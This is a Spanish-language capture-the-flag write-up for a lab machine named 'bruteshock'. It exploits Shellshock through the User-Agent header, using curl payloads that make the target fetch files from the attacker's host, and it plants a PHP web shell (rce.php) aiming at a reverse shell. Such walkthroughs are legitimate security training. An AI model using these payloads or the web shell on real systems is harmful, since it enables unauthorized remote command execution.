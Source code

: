## ShellShock

Pensé que esta explotación sería algo sobre envenenamiento hasta que me acordé del nombre de la máquina, se trataría de `Shellshock`. Este es un ataque que se lleva a cabo a través de la cabecera `User-Agent` , un bug de `bash` que permite la ejecución remota de comandos, una detección para esta máquina sería la siguiente

![Pasted image 20241105222724](https://github.com/user-attachments/assets/3c1c3b65-b334-47b2-b05b-6c6eb02cf789)

## Proof of Concept

Ejecutamos esta solicitud `http` para la URL `http://bruteshock.local/pruebasUltraSecretas`

~~~ bash
curl -I -sLX GET http://bruteshock.local/pruebasUltraSecretas/ -A "() { :; }; curl http://10.88.0.1/test"
~~~

https://github.com/user-attachments/assets/2cc244a8-a28d-4c8c-b138-00561a43e3a9

Aprovecha el bug Willy!. En el ejemplo anterior estaríamos intentando enviarnos una solicitud HTTP a nuestro servidor `python3`. Es cuando el payload se ejecuta correctamente y envía un `request` a nuestro servidor solicitando un archivo `test`

## File Upload

Aprovechando este bug podremos enviar una `reverse shell` a nuestra máquina atacante, para ello crearemos un archivo que usaremos para ejecutar comandos, nos ayudaremos de `Brupsuite` o `curl`

Archivo `rce.php`
 
~~~ bash
echo '<?php system($_GET["cmd"]); ?>' > rce.php
~~~

Modificaremos el `User-Agent` y enviaremos la siguiente solicitud, pero primero tendremos un servidor HTTP con `python3`

![Pasted image 20241105231701](https://github.com/user-attachments/assets/c1aab102-6eb0-46dc-92be-8346cb200b65)

### Burpsuite

En `Burpsite` interceptaremos el tráfico y enviaremos la siguiente solicitud

~~~ bash
() { :; }; curl http://10.88.0.1/rce.php -o exec.php
~~~

![Pasted image 20241105231020](https://github.com/user-attachments/assets/2c5b993c-2c5c-40cd-9c73-c4cdeaa41511)

### Curl

~~~ bash
curl -I -sLX GET http://bruteshock.local/pruebasUltraSecretas/ -A "() { :; }; curl http://10.88.0.1/rce.php -o exec.php"
~~~
